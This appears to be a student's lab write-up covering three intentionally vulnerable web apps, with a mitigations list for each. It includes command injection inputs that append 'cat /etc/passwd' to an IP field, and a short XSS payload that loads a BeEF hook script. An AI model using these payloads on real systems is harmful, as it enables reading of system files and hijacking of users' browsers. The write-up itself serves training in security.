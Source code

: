 ### Web Application 1: Your Wish is My Command Injection

* Command to show contents of ```etc/passwd``` : ``` 8.8.8.8 &&  cat /../../etc/passwd ```
  ![image](./images/cmd_injection_etc_passwd.PNG)

* Command to show contents of ```etc/hosts ``` : ``` 8.8.8.8 &&  cat /../../etc/hosts ```
  ![image](./images/cmd_injection_etc_hosts.PNG)

#### Mitigations
* Add client side data validation that uses a RegEx to validate that only a IP address is being entered. 
* Add service side data validation that only allows for a valid IPv4 ip address to be used. 
* I would do both of these cause you can never trust the user input validation and should always be double checking server side

### Web Application 2: A Brute Force to Be Reckoned With
 ![image](./images/broken_auth.png)

#### Mitigations
* Add a max retry count for authenticating
* Expire passwords after thirty days of inactivity or after ninety days if actively used
* Implent MFA or other 2FA system. - Really important for any administration systems

### Web Application 3: Where's the BeEF?
* To get around the character lenght limitations on the text box, I just shortened the provided script tag ``` <script src="http://127.0.0.1:3000/hook.js"></script> ```  to be ``` <script src="http://127.0.0.1:3000/hook.js"/> ```. Since there is no Javascript within the body of the script tag you can just add a forward slash at the end of the script tag to close it.
  


![image](./images/petty_theft.png)

![image](./images/petty_theft_attacker.png)

![image](./images/fake_notification_bar.PNG)

#### Mitigations
* URL encode the message so that rendering it directly to the screen doesn't allow for Javascript to be executed.
* Have data validation client side and server side on the user input

